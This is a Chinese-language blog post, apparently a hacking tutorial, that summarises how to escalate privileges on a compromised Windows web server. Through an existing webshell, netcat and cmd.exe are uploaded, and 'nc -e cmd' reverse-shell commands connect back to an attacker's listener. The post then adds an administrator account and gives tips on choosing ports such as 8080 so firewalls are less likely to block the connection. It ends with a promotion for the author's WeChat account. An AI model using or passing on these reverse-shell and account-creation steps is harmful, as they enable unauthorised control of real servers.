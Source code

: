 ```yaml
---
layout: post
category: binghe-code-hack
title: NC反弹CMDSHELL提权总结
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: NC反弹CMDSHELL提权总结
lock: need
---
```


#  NC反弹CMDSHELL提权总结

Server-U等都不可以用的情况下.  一般都可思考用此方法
 不过这种方法, 只要对方装了防火墙, 或是屏蔽掉了除常用的那几个端口外的所有端口…  那么这种方法也失效了….

1:通过shell将上传NC和CMD传到站点目录下(这里一定上传的注意权限,最好是可读写目录下)
 web目录都是有写有读的权限,我们直接传NC进去

![img](https://img-blog.csdnimg.cn/20181231145050556.jpg)



2:然后本地执行nc -vv -lp 52进行反弹

![img](https://img-blog.csdnimg.cn/20181231145122207.jpg)

3:在shell命令下执行

F:\wwwroot\img\nc.exe -e cmd上传路径 IP(外网IP) 52(这里是本机端口)

![img](https://img-blog.csdnimg.cn/20181231145154571.jpg)

4:在shell里执行命令后,马上看到本地CMS里已经反弹上去了,执行net user 也是成功.

![img](https://img-blog.csdnimg.cn/20181231145225477.jpg)

5:直接添加用户,然后远程去连接!

![img](https://img-blog.csdnimg.cn/20181231145257596.jpg)

看到添加成功,也设置为管理组了!接下来直接远程连接就OK!

不少人NC提权没有成功过，因为其中的原因是你没有降低权限，而导致了NC提权失败

**失败总结：**

1.反弹端口

网上不少文章写 反弹端口445 110 什么的，你当防火墙白痴是不是，我建议看一下端口有没有8080端口，如果没有8080端口的话，要反弹8080端口，这样被防火墙阻止的概率较小

2.降低运行权限

1.现在本地监听一个端口

```bash
nc -vv -l -p 8080 //最好是80或8080这样的端口，被防火墙拦截的几率很小。
```

2.在WebShell运行下面命令连接我们监听的端口得到CmdShell:

```bash
nc -vv IP 8080 -e C:\Documents and Settings\All  Users\Documents\cmd.exe //假设cmd.exe是上传在"C:\Documents and Settings\All  Users\Documents\"这个目录
```

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)